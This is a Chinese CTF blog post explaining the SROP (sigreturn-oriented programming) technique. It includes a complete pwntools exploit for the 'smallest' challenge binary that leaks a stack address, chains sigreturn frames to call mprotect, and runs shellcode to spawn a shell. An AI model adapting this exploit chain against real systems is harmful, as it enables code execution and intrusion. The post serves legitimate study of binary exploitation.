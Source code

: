 ```yaml
---
title: SROP_SMALLEST
date: 2019-04-10 21:32:35
tags:
layout: default
---
```

最近发现自己技能点很多都没有点...平时忙了点抽点时间把技能点上...SROP
<!--more-->
# SROP
SROP(Sigreturn Oriented Programming) 于 2014 年被 Vrije Universiteit Amsterdam 的 Erik Bosman 提出，其相关研究Framing Signals — A Return to Portable Shellcode发表在安全顶级会议 Oakland 2014 上，被评选为当年的 Best Student Papers。#摘自[ctfwiki][1]

[paper][2]
[slide][2]

原理及内容在`ctfwiki`上已经介绍的比较清楚
![nier](https://github.com/n132/Watermalon/raw/master/UNK/smallest/SIGNAL.png)
# 过程
执行0xf号(将栈上已经预先放置好的数据弹出)==>控制执行流
可以设置esp达到连续攻击的效果.
# 要求
* 较大空间 放置signal frame(约0x100)
* 泄露地址
* syscall-address
# 难点
理解了感觉没什么难的..利用了15号调用可以劫持执行流..
想出这个的人真厉害...
# exp OF smallest
[binary][4]
```python
from pwn import *
context.log_level='debug'
main=0x0000000004000B0
syscall=0x00000000004000be
p=process('./smallest')


context.arch='amd64'
shellcode=asm(shellcraft.sh())

p.send(p64(main)*3)
sleep(0.3)
#1

raw_input()
p.send("\xb3")

p.read(8)

stack=u64(p.read(8))
log.warning(hex(stack))

sig=SigreturnFrame()
sig.rax=0
sig.rdi=0
sig.rsi=stack&0xfffffffffffffff0
sig.rdx=0x200
sig.rip=0x4000be
sig.rsp=stack&0xfffffffffffffff0
ret=0x00000000004000c0
#2
gdb.attach(p)
raw_input()

p.send(p64(main)+p64(0)+str(sig))
sleep(0.3)
#3

payload=p64(0x0000000004000Be)+p64(0)[:-1]
raw_input()
p.send(payload)
sleep(0.3)

sig=SigreturnFrame()
sig.rax=10
sig.rdi=stack&0xffffffffffff0000
sig.rsi=0x10000
sig.rdx=7
sig.rip=0x4000be
sig.rsp=0x110+(stack&0xfffffffffffffff0)
ret=0x00000000004000c0
payload=p64(main)+p64(0)
raw_input()
p.send(payload+str(sig)+p64(0xdeadbeef)+p64((stack&0xffffffffffff0)+0x118)+asm(shellcraft.sh()))

sleep(0.3)
payload=p64(0x4000Be)+p64(0)[:-1]
raw_input()
p.send(payload)


p.interactive()
```
# review
发现调试的时候可以加上raw_input防止输入乱序

# echo_server
[binary][3]
顺便放一题partial write + ret slide
发现栈其实很`随便`...
aslr下需要概率打通.
# exp
```python

```

[1]:https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/advanced-rop/#srop
[2]:https://github.com/n132/Watermalon/tree/master/UNK/smallest
[3]:https://github.com/n132/Watermalon/tree/master/UNK/echo
[4]:https://github.com/n132/Watermalon/tree/master/UNK/smallest